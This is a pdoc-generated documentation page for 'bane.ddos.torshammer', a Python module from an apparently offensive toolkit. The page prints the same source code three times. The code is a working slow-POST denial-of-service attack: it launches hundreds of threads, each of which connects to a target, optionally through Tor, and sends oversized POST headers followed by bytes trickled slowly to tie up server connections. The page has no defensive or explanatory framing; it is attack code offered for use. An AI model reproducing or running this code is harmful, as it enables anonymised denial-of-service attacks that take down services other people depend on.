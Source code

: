 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.ddos.torshammer</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">from bane.ddos.utils import *

class torshammer(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        cookie=None,
        user_agents=None,
        threads_daemon=True,
        threads=500,
        timeout=5,
        tor=False,
        duration=60,
        logs=False,
        max_content=15000,
        min_content=10000,
    ):
        self.counter = 0
        self.cookie = cookie
        self.user_agents = user_agents
        if not self.user_agents or len(self.user_agents) == 0:
            self.user_agents = ua
        self.max_content = max_content
        self.min_content = min_content
        self.stop = False
        self.start = time.time()
        self.target = u
        self.duration = duration
        self.port = p
        self.timeout = timeout
        self.tor = tor
        self.logs = logs
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
            except:
                pass

    def attack(self):
        try:
            time.sleep(1)
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    s = socks.socksocket(socket.AF_INET, socket.SOCK_STREAM)
                    if self.tor == False:
                        s.settimeout(self.timeout)
                    if self.tor == True:
                        s.setproxy(socks.PROXY_TYPE_SOCKS5, &#34;127.0.0.1&#34;, 9050, True)
                    s.connect((self.target, self.port))
                    if (self.port == 443) or (self.port == 8443):
                        s = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
                    self.counter += 1
                    if self.logs == True:
                        sys.stdout.write(
                            &#34;\rConnected to {}:{}...&#34;.format(self.target, self.port)
                        )
                        sys.stdout.flush()
                        # print(&#34;Connected to {}:{}...&#34;.format(self.target,self.port))
                    q = random.randint(self.min_content, self.max_content)
                    ck = &#34;&#34;
                    if self.cookie:
                        ck = &#34;Cookie: &#34; + self.cookie + &#34;\r\n&#34;
                    s.send(
                        reorder_headers_randomly(
                            &#34;POST {} HTTP/1.1\r\n{}User-Agent: {}\r\nAccept-language: en-US,en,q=0.5\r\nConnection: keep-alive\r\nKeep-Alive: {}\r\nContent-Length: {}\r\nContent-Type: application/x-www-form-urlencoded\r\nReferer: {}\r\nHost: {}\r\n\r\n&#34;.format(
                                random.choice(paths),
                                ck,
                                random.choice(self.user_agents),
                                random.randint(300, 1000),
                                q,
                                (
                                    random.choice(referers)
                                    + random.choice(lis)
                                    + str(random.randint(0, 100000000))
                                    + random.choice(lis)
                                ),
                                self.target,
                            )
                        ).encode(&#34;utf-8&#34;)
                    )
                    for i in range(q):
                        if (
                            int(time.time() - self.start) &gt;= self.duration
                        ):  # this is a safety mechanism so the attack won&#39;t run forever
                            break
                        if self.stop == True:
                            break
                        h = random.choice(lis)
                        try:
                            s.send(h.encode(&#34;utf-8&#34;))
                            if self.logs == True:
                                sys.stdout.write(&#34;\rPosted: {}&#34;.format(h))
                                sys.stdout.flush()
                                # print(&#34;Posted: {}&#34;.format(h))
                            time.sleep(random.uniform(0.1, 3))
                        except:
                            break
                    s.close()
                except:
                    pass
                self.counter -= 1
                time.sleep(0.1)
                if self.stop == True:
                    break
            self.kill()
        except:
            pass</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-classes">Classes</h2>
<dl>
<dt id="bane.ddos.torshammer.torshammer"><code class="flex name class">
<span>class <span class="ident">torshammer</span></span>
<span>(</span><span>u, p=80, cookie=None, user_agents=None, threads_daemon=True, threads=500, timeout=5, tor=False, duration=60, logs=False, max_content=15000, min_content=10000)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">class torshammer(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        cookie=None,
        user_agents=None,
        threads_daemon=True,
        threads=500,
        timeout=5,
        tor=False,
        duration=60,
        logs=False,
        max_content=15000,
        min_content=10000,
    ):
        self.counter = 0
        self.cookie = cookie
        self.user_agents = user_agents
        if not self.user_agents or len(self.user_agents) == 0:
            self.user_agents = ua
        self.max_content = max_content
        self.min_content = min_content
        self.stop = False
        self.start = time.time()
        self.target = u
        self.duration = duration
        self.port = p
        self.timeout = timeout
        self.tor = tor
        self.logs = logs
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
            except:
                pass

    def attack(self):
        try:
            time.sleep(1)
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    s = socks.socksocket(socket.AF_INET, socket.SOCK_STREAM)
                    if self.tor == False:
                        s.settimeout(self.timeout)
                    if self.tor == True:
                        s.setproxy(socks.PROXY_TYPE_SOCKS5, &#34;127.0.0.1&#34;, 9050, True)
                    s.connect((self.target, self.port))
                    if (self.port == 443) or (self.port == 8443):
                        s = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
                    self.counter += 1
                    if self.logs == True:
                        sys.stdout.write(
                            &#34;\rConnected to {}:{}...&#34;.format(self.target, self.port)
                        )
                        sys.stdout.flush()
                        # print(&#34;Connected to {}:{}...&#34;.format(self.target,self.port))
                    q = random.randint(self.min_content, self.max_content)
                    ck = &#34;&#34;
                    if self.cookie:
                        ck = &#34;Cookie: &#34; + self.cookie + &#34;\r\n&#34;
                    s.send(
                        reorder_headers_randomly(
                            &#34;POST {} HTTP/1.1\r\n{}User-Agent: {}\r\nAccept-language: en-US,en,q=0.5\r\nConnection: keep-alive\r\nKeep-Alive: {}\r\nContent-Length: {}\r\nContent-Type: application/x-www-form-urlencoded\r\nReferer: {}\r\nHost: {}\r\n\r\n&#34;.format(
                                random.choice(paths),
                                ck,
                                random.choice(self.user_agents),
                                random.randint(300, 1000),
                                q,
                                (
                                    random.choice(referers)
                                    + random.choice(lis)
                                    + str(random.randint(0, 100000000))
                                    + random.choice(lis)
                                ),
                                self.target,
                            )
                        ).encode(&#34;utf-8&#34;)
                    )
                    for i in range(q):
                        if (
                            int(time.time() - self.start) &gt;= self.duration
                        ):  # this is a safety mechanism so the attack won&#39;t run forever
                            break
                        if self.stop == True:
                            break
                        h = random.choice(lis)
                        try:
                            s.send(h.encode(&#34;utf-8&#34;))
                            if self.logs == True:
                                sys.stdout.write(&#34;\rPosted: {}&#34;.format(h))
                                sys.stdout.flush()
                                # print(&#34;Posted: {}&#34;.format(h))
                            time.sleep(random.uniform(0.1, 3))
                        except:
                            break
                    s.close()
                except:
                    pass
                self.counter -= 1
                time.sleep(0.1)
                if self.stop == True:
                    break
            self.kill()
        except:
            pass</code></pre>
</details>
<h3>Ancestors</h3>
<ul class="hlist">
<li><a title="bane.ddos.utils.DDoS_Class" href="utils.html#bane.ddos.utils.DDoS_Class">DDoS_Class</a></li>
</ul>
<h3>Methods</h3>
<dl>
<dt id="bane.ddos.torshammer.torshammer.attack"><code class="name flex">
<span>def <span class="ident">attack</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def attack(self):
    try:
        time.sleep(1)
        while True:
            if (
                int(time.time() - self.start) &gt;= self.duration
            ):  # this is a safety mechanism so the attack won&#39;t run forever
                break
            if self.stop == True:
                break
            try:
                s = socks.socksocket(socket.AF_INET, socket.SOCK_STREAM)
                if self.tor == False:
                    s.settimeout(self.timeout)
                if self.tor == True:
                    s.setproxy(socks.PROXY_TYPE_SOCKS5, &#34;127.0.0.1&#34;, 9050, True)
                s.connect((self.target, self.port))
                if (self.port == 443) or (self.port == 8443):
                    s = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
                self.counter += 1
                if self.logs == True:
                    sys.stdout.write(
                        &#34;\rConnected to {}:{}...&#34;.format(self.target, self.port)
                    )
                    sys.stdout.flush()
                    # print(&#34;Connected to {}:{}...&#34;.format(self.target,self.port))
                q = random.randint(self.min_content, self.max_content)
                ck = &#34;&#34;
                if self.cookie:
                    ck = &#34;Cookie: &#34; + self.cookie + &#34;\r\n&#34;
                s.send(
                    reorder_headers_randomly(
                        &#34;POST {} HTTP/1.1\r\n{}User-Agent: {}\r\nAccept-language: en-US,en,q=0.5\r\nConnection: keep-alive\r\nKeep-Alive: {}\r\nContent-Length: {}\r\nContent-Type: application/x-www-form-urlencoded\r\nReferer: {}\r\nHost: {}\r\n\r\n&#34;.format(
                            random.choice(paths),
                            ck,
                            random.choice(self.user_agents),
                            random.randint(300, 1000),
                            q,
                            (
                                random.choice(referers)
                                + random.choice(lis)
                                + str(random.randint(0, 100000000))
                                + random.choice(lis)
                            ),
                            self.target,
                        )
                    ).encode(&#34;utf-8&#34;)
                )
                for i in range(q):
                    if (
                        int(time.time() - self.start) &gt;= self.duration
                    ):  # this is a safety mechanism so the attack won&#39;t run forever
                        break
                    if self.stop == True:
                        break
                    h = random.choice(lis)
                    try:
                        s.send(h.encode(&#34;utf-8&#34;))
                        if self.logs == True:
                            sys.stdout.write(&#34;\rPosted: {}&#34;.format(h))
                            sys.stdout.flush()
                            # print(&#34;Posted: {}&#34;.format(h))
                        time.sleep(random.uniform(0.1, 3))
                    except:
                        break
                s.close()
            except:
                pass
            self.counter -= 1
            time.sleep(0.1)
            if self.stop == True:
                break
        self.kill()
    except:
        pass</code></pre>
</details>
</dd>
</dl>
</dd>
</dl>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.ddos" href="index.md">bane.ddos</a></code></li>
</ul>
</li>
<li><h3><a href="#header-classes">Classes</a></h3>
<ul>
<li>
<h4><code><a title="bane.ddos.torshammer.torshammer" href="#bane.ddos.torshammer.torshammer">torshammer</a></code></h4>
<ul class="">
<li><code><a title="bane.ddos.torshammer.torshammer.attack" href="#bane.ddos.torshammer.torshammer.attack">attack</a></code></li>
</ul>
</li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>